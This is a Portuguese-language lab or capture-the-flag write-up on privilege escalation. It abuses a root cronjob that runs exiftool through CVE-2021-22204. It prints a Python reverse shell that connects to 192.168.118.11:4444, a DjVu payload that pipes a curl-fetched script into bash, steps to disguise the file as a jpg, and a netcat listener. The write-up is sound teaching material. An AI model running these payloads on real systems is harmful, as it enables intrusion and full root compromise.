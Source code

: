 ## Privilege Escalation

### Cronjob Enumeration

Identificamos uma entrada no arquivo `/etc/crontab` que executa o script `/opt/image-exif.sh` como root a cada minuto.

```
# Exibindo o conteúdo de /etc/crontab
cat /etc/crontab
```

**Cronjob Identificado**:
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
...
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
```

### Script Analysis (`/opt/image-exif.sh`)

O script realiza processamento de metadados em imagens JPG usando `exiftool` e salva os dados processados em `/opt/metadata`.

```
# Exibindo o conteúdo de /opt/image-exif.sh
cat /opt/image-exif.sh
```

**Conteúdo do Script**:
```
#!/bin/bash
IMAGES='/var/www/html/subrion/uploads'
META='/opt/metadata'
FILE=$(openssl rand -hex 5)
LOGFILE="$META/$FILE"
ls $IMAGES | grep "jpg" | while read filename; do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done
```

**Análise**: O script executa `exiftool` em cada arquivo JPG no diretório de uploads, com potencial de exploração caso o `exiftool` seja vulnerável.

### Exploração de Arbitrary Code Execution com ExifTool (CVE-2021-22204)

Descoberta de vulnerabilidade de execução de código remoto (RCE) no ExifTool, documentada em CVE-2021-22204. Utilizamos o `djvumake` para criar um arquivo malicioso no formato DjVu.

1. **Instalar Dependência**: `djvulibre-bin` para gerar o arquivo DjVu.
   ```
   sudo apt-get update && sudo apt-get install -y djvulibre-bin
   ```

2. **Criar Arquivo de Payload**:
   - `shell.sh`: Script de reverse shell em Python.
   - `exploit`: Exploit para chamar `shell.sh` remotamente.
   
   ```
   # shell.sh (conteúdo do reverse shell)
   cat << 'EOF' > shell.sh
   #!/bin/bash
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   EOF
   ```

   ```
   # exploit (comando para executar o reverse shell via curl)
   cat << 'EOF' > exploit
   (metadata "\c${system ('curl http://192.168.118.11/shell.sh | bash')};")
   EOF
   ```

3. **Gerar Arquivo DjVu Malicioso**:
   ```
   djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit
   mv exploit.djvu exploit.jpg
   ```

4. **Transferir o Arquivo para o Servidor**:
   ```
   wget http://192.168.118.11/exploit.jpg -O /var/www/html/subrion/uploads/exploit.jpg
   ```

5. **Ouvir Conexão Reversa**:
   Após um minuto, o cronjob executará o payload, e a shell reversa será conectada à porta 4444.

   ```
   nc -lvnp 4444
   ```

**Resultado**:
```
# id
uid=0(root) gid=0(root) groups=0(root)
```
